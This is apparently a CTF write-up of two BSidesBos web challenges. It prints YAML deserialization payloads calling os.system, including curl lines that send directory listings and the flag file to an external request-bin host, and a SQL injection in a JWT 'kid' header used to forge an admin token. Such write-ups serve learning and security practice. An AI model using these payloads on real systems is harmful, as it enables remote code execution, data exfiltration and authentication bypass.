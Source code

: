```yaml
---
layout: post
title: BSidesBos CTF writeup - Web
author: Lorentz Vedeler
date: 2020-09-26
tags:   
    - BSidesBos
category: writeup
---
```


I only solved two web challenges in this CTF: skid and Yet Another Micro-story Library. All web challenges had a pretty low number of solves.

# Yet Another Micro-story Library

We have to sign up and then log in to see a page with shared stories. When we do we are greeted with a blog listing. At the bottom there is a button to add our own story to the blog.

![Story time front page][story-time]
![Story time yaml form][story-time-form]

We can try to send some malformed yaml to the page:

``` yml
title: "Title of your story"
synopsis: "This is a brief summary of your story"
plot: 
---and they lived happily ever after.
    The End
keywords:
    - "example" 
    - "fiction" 
```

``
Bad Request

Error parsing yaml: while scanning a simple key
in "<unicode string>", line 4, column 1:
---and they lived happily ever a ...
^
could not find expected ':'
in "<unicode string>", line 6, column 1:
keywords:
^
``` 

Googling the errors didn't really give me any clues to which framework was being used, so I decided to just try a few simple payloads.

My first payload was:

```yml
!!python/object/apply:subprocess.Popen
  - ls
``` 
Giving the error below, at least now we can be pretty sure we're dealing with a python application.

```
Internal Server Error

'Popen' object is not subscriptable
```

I actually spent a lot of trying to get Popen to work, but found a different payload after a while.

``` yml
!!python/object/apply:os.system
  - ls
```
It succeeds, but the data does not appear anywhere. We can easily exfiltrate data though with a request bin though.

```yml
!!python/object/apply:os.system
  - ls | curl -X POST --data-binary @-  https://postb.in/1601157034473-5430747917853
```

The flag is in the web directory, so we can just issue a new command:
```yml

!!python/object/apply:os.system
  - cat flag.txt | curl -X POST --data-binary @-  https://postb.in/1601157034473-5430747917853
```


# skid

The challenge is a true script kiddie blog - teaching the fine art of sqlmap and armitage. We notice a cookie has been set:

skidtoken=eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiIsImtpZCI6InNraWQifQ.eyJ1c2VybmFtZSI6InNraWQifQ.sacXoUrQCXpaylE4a4RGrCawHqBJJVGfOozOaPxQqOo

The JWT token decodes to the header 
{
  "typ": "JWT",
  "alg": "HS256",
  "kid": "skid"
}

and the body
{
  "username": "skid"
}

The kid field in the header represents a key identifier. The key identifier is used to let the server know which key has been used to sign the token. This is very useful for instance when the token issuing server rotates keys. This allows for a grace period where tokens that have issued right before the key rotation can still be validated by the server after the key rotation. The key identifier is also useful for simply having many different keys at the same time. 

Anyway, this key identifier can often represent a key in a jwks.json file, a regular file or a key in a database. We can look for a publicly available jwks-file. We try a few different files: 
* jwks.json
* /.well-known/jwks.json
* skid.json
* skid

and a few permutations of those, but no luck. Let's instead try to look for a sql injection. We can just modify our token with for instance the tool on jwt.io. Remember that since the kid field is used to look for the key used for the signature, we do not need to provide a valid signature now. Let's just change the kid to `skid'` and see if we can trigger an error. Change the cookie value in developer tools and refresh the page.

```
Bad Request

(sqlite3.OperationalError) unrecognized token: "'skid''"
[SQL: select * from key where name like 'skid'']
(Background on this error at: http://sqlalche.me/e/13/e3q8)
```

Nice, the key is stored in a sqlite db and we have a sql injection vulnerability! We can now use a union to choose our own key by effectivly changing the query to

``` sql
select * from key where name like 'a key that does not exist' 
union 
select <our key>
```

But first we need to detect how many fields there are in the table. A few tries gives us the correct number of columns. The final payload for our kid field is `asdbqweqwe' union select 'a','a','a`. As we have replaced all fields of the key with a's we can forge our token in jwt.io setting the secret to `a` and the username field in the body to admin.

![SQL injection in jwt kid field in jwt.io][forging-token]

[story-time]: /assets/imgs/yaml-blog.png "Story time front page"
[story-time-form]: /assets/imgs/yaml-blog.png "Story time form"
[forging-token]: /assets/imgs/jwt-with-sqli.png "SQL injection in jwt kid field in jwt.io"